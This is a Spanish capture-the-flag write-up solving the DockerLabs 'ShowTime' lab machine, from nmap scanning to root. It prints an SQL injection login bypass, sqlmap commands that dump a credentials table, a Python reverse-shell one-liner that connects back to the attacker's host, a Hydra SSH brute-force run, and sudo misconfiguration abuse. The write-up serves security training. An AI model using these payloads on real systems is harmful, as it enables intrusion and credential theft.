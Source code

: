 #MAQUINA #DOCKERLABS #FACIL 
#SQLI #RCE
#SQLMAP
<hr>
# RECONOCIMIENTO

Vamos a resolver **ShowTime** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-05 12:46 CET
Initiating ARP Ping Scan at 12:46
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 12:46, 0.05s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 12:46
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Completed SYN Stealth Scan at 12:46, 0.50s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2024-12-05 12:46:42 CET for 1s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.69 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)

```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** y el puerto **22(SSH)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p22,80 172.17.0.2                            
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-05 12:47 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.000018s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e1:9a:9f:b3:17:be:3d:2e:12:05:0f:a4:61:c3:b3:76 (ECDSA)
|_  256 69:8f:5c:4f:14:b0:4d:b6:b7:59:34:4d:b9:03:40:75 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: cs
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.41 seconds



```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-05 12:47 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.0000030s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-enum: 
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.58 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.58 (ubuntu)'
|_  /js/: Potentially interesting directory w/ listing on 'apache/2.4.58 (ubuntu)'
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.45 seconds


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.
# EXPLOTACION

Al revisar la web que hay en el puerto 80, vemos que hay un login. 
Al meter una contra cualquiera y meterle como usuario -> **a' or 1=1 -- -** , nos deja pasar, por lo que es vulnerable a un SQLI, vamos a automatizarlo usando **sqlmap**

   ```bash

sqlmap -u "http://172.17.0.2/login_page/" --batch --forms --dbs

available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] users

sqlmap -u "http://172.17.0.2/login_page/" --batch --forms -D users --tables

Database: users
[1 table]
+----------+
| usuarios |
+----------+

sqlmap -u "http://172.17.0.2/login_page/" --batch --forms -D users -T usuarios --dump

Database: users
Table: usuarios
[3 entries]
+----+----------------------+----------+
| id | password             | username |
+----+----------------------+----------+
| 1  | 123321123321         | lucas    |
| 2  | 123456123456         | santiago |
| 3  | MiClaveEsInhackeable | joe      |
+----+----------------------+----------+


```

**joe : MiClaveEsInhackeable** -> llama la atención, vamos a probar con estas credenciales.

En ssh no van, pero en la web si, ahora nos sale un ejecutor de comandos en python.

Nos ponemos en escucha por el puerto 443 y ejecutamos :

   ```bash
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.17.0.1",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")

```

# ESCALADA PRIVILEGIOS

Vemos que hay un archivo en **/tmp** , puede ser la contra de joe , por lo que pasamos a minúsculas y probamos con hydra:
   ```bash
cat contras | sed 's/.*/\L&/' > contras_min
hydra -l joe -P contras_min ssh://172.17.0.2 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-05 13:20:35
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 79 login tries (l:1/p:79), ~2 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: joe   password: chittychittybangbang
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 22 final worker threads did not complete until end.
[ERROR] 22 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-12-05 13:20:38

```

YA ESTAMOS COMO JOE.

Buscamos archivos con permisos SUDO:
   ```bash
joe@085a9a248e65:~$ sudo -l
Matching Defaults entries for joe on 085a9a248e65:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joe may run the following commands on 085a9a248e65:
    (luciano) NOPASSWD: /bin/posh

```

Vemos **posh** con permisos SUID :
   ```bash
joe@085a9a248e65:~$ sudo -u luciano posh
$ whoami
luciano

```

YA ESTAMOS COMO LUCIANO.


Buscamos archivos con permisos SUDO:
   ```bash
luciano@085a9a248e65:~$ sudo -l
Matching Defaults entries for luciano on 085a9a248e65:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luciano may run the following commands on 085a9a248e65:
    (root) NOPASSWD: /bin/bash /home/luciano/script.sh

```

Vemos **/home/luciano/script.sh** con permisos SUDO ejecutandolo con /bin/bash :
   ```bash
luciano@085a9a248e65:~$ cat script.sh 
bash -p
luciano@085a9a248e65:~$ sudo /bin/bash /home/luciano/script.sh 
root@085a9a248e65:/home/luciano# whoami
root
root@085a9a248e65:/home/luciano# 
```

**YA ESTAMOS COMO ROOT.**
